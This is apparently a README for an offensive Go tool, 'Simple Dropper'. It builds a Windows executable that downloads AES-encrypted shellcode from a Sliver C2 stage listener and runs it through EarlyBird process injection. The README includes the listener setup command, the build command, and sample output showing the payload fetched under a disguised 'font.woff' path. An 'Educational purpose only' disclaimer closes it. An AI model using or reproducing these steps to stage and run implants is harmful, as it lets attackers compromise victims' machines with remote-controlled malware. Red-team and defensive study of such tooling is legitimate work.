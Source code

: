 # Simple Dropper

### Description

Generate dropper to do these things for you:

1. Download shellcode from sliver's stage listener
2. Run it using EarlyBird Method

### Usage

Have your sliver's http(s) stage-listener ready like this:
```
stage-listener -u https://example.com:443 --aes-encrypt-key <key> --aes-encrypt-iv <iv> -p <your implant profile>
```

Run this project with the url and aes key
```
go run . -u https://example.com -k <key>

[+] Request: https://example.com/font.woff
[+] AES Key: <key>
[+] Binary : out/out.exe
```

Run it on windows to see the binary gives you any luck

> Educational purpose only
